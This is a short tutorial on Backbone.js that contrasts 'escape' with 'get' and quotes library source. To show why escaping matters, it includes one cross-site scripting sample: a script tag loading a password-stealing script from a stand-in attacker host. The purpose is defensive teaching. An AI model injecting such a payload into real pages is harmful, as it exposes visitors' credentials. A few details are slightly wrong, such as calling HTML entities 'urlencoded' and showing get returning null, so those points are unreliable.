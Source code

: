 # `escape` and `get`

Backbone Models store attributes in an `attributes` hash attribute. In order to take advantage of the `listenTo` mechanism, we do not interact with the `attributes` hash attribute, but through getter and setter methods. The two getter methods are `get` and `escape`. 

## XSS
To set the stage to demonstrate the differences between `escape` and `get`, lets see the problem back drop.

[Cross-site Scripting][xss] attacks are a common attack where the attacker can submit malformed code in a form field that contains javascript or reference to client side scripts that will be run when the page is rendered.

Consider the situation where there is a form for a comment and the following is submitted:

`insensitive comment. <script src="http://evilserver.cn/password_stealer.js></script>`

When the comment is rendered on the page, it has the potential of being rendered as raw html and embedding the evil script tag onto the page, which will download *password_stealer.js to every client that visits the comment page.

Enter escape.

[xss]: http://en.wikipedia.org/wiki/Cross-site_scripting

## `escape`
Thanks to the beautifly documented backbone.js library, we can easily see that the `Backbone.Model#escape` method is calling the `_.escape` method. 

```js
// backbone escape
escape: function(attr) {
  return _.escape(this.get(attr));
},
```

To get a closer look at escape we can dive into the underscore.js source and see that _.escape takes a string and replaces all occurances of '&', '<', '>', '"', "'", and '/' with urlencoded versions. 

* **escape** always returns a *string*.

```js
// underscore escape
// keys will be replaced with values
var entityMap = {
  escape: {
    '&': '&amp;',
    '<': '&lt;',
    '>': '&gt;',
    '"': '&quot;',
    "'": '&#x27;',
    '/': '&#x2F;'
  }
};

var entityRegexes = {
  escape:   new RegExp('[' + _.keys(entityMap.escape).join('') + ']', 'g'),
  unescape: new RegExp('(' + _.keys(entityMap.unescape).join('|') + ')', 'g')
};

_.each(['escape', 'unescape'], function(method) {
  _[method] = function(string) {
    if (string == null) return '';
    // return string after replacing all regular expression matches from the entityMap.
    return ('' + string).replace(entityRegexes[method], function(match) {
      return entityMap[method][match];
    });
  };
});
```

Okay, cool! If I've got a post model and I'm displaying it in a js template or on a page anywhere I'll use `escape`. Why is there even a `get` method?

Lets take a look...

## `get`
`Backbone.Model#get` is a simple getter that returns the value of the attribute from the `attributes` hash attribute.

* **get** always returns the unaltered attribute.

```js
get: function(attr) {
  return this.attributes[attr];
},
```

```js
var post = new Backbone.Model({});
console.log(post.get("title")); // null
console.log(post.escape("title")); // ""
```

Got it! If I need to use the raw, unaltered attribute for perhaps a calculation, or to check if the attribute is null, I'll use `get`. I'll default to using `escape`. Saftey First!

## Resources

* [escape and get - blog][metabates-blog]
    * **TODO** review this resource

[metabates-blog]: http://metabates.com/2012/04/17/there-is-no-escape-actually-there-is-and-you-should-always-use-it/